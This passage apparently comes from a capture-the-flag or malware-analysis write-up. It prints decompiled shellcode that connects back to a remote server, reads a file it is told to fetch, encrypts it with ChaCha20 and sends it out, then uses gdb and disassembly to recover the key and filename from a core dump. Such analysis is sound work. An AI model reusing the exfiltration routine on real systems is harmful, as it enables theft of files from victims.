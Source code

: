 ```c
  unsigned int filename_size; // [rsp+15C0h] [rbp-C8h] BYREF
  unsigned int size_4; // [rsp+15C4h] [rbp-C4h] BYREF

  sock = u_reverse_sock();
  v1 = sys_recvfrom(sock, key, 0x20uLL, 0, 0LL, 0LL);
  v2 = sys_recvfrom(sock, nonce, 0xCuLL, 0, 0LL, 0LL);
  v3 = sys_recvfrom(sock, &filename_size, 4uLL, 0, 0LL, 0LL);
  filename_len = sys_recvfrom(sock, filename, filename_size, 0, 0LL, 0LL);
  filename[(int)filename_len] = 0;
  fd = sys_open(filename, 0, 0);
  filelen = sys_read(fd, buf, 0x80uLL);
  v7 = strlen(buf) + 1;
  size_4 = v7 - 1;
  u_chacha20_init((__int64)&buf[v7], (__int64)buf, (__int64)key, (__int64)nonce, 0LL);
  u_chacha20_encr((__int64)&buf[v7], (__int64)buf, (__int64)buf, size_4);
  v8 = sys_sendto(sock, &size_4, 4uLL, 0, 0LL, 0);
  v9 = sys_sendto(sock, buf, size_4, 0, 0LL, 0);
  u_sys_close();
  u_sys_shutdown(sock, (__int64)buf, 0);
  return 0LL;
}
```

The shellcode opens a reverse shell and reads a `key`, a `nonce` a `filename_size` and a `filename`.
Then it reads that file, encrypts it using [ChaCha](https://en.wikipedia.org/wiki/Salsa20) and
returns it back to the server.


Even though the shellcode has been re-encrypted, the parameters (`key`, `nonce`, `filename_size`,
`filename`) are still in the core dump. We **use the stack offsets to locate these values**. At the
time of the crash, `rsp` is `0x7ffcc6601e98`:
```
(gdb) i r rsp
rsp            0x7ffcc6601e98      0x7ffcc6601e98
```

After prolog of `u_shellcode_main`, `rsp` has been moved by

```assembly
.rodata:00007F4A18CA9960 glo_ciphertext:
.rodata:00007F4A18CA9960                 push    rbp                ; +8
.rodata:00007F4A18CA9961                 mov     rbp, rsp
.rodata:00007F4A18CA9964                 call    u_shellcode_main   ; +0x10
.rodata:00007F4A18CA9969                 leave
.rodata:00007F4A18CA996A                 retn

.rodata:00007F4A18CAA722 u_shellcode_main proc near
.rodata:00007F4A18CAA722                 push    rbx                ; +0x18
.rodata:00007F4A18CAA723                 push    rsi                ; +0x20
.rodata:00007F4A18CAA724                 push    rdi                ; +0x28
.rodata:00007F4A18CAA725                 push    r12                ; +0x30
.rodata:00007F4A18CAA727                 push    rbp                ; +0x38
.rodata:00007F4A18CAA728                 mov     rbp, rsp
.rodata:00007F4A18CAA72B                 lea     rsp, [rsp-1688h]   ; -0x1688 + 0x38
```
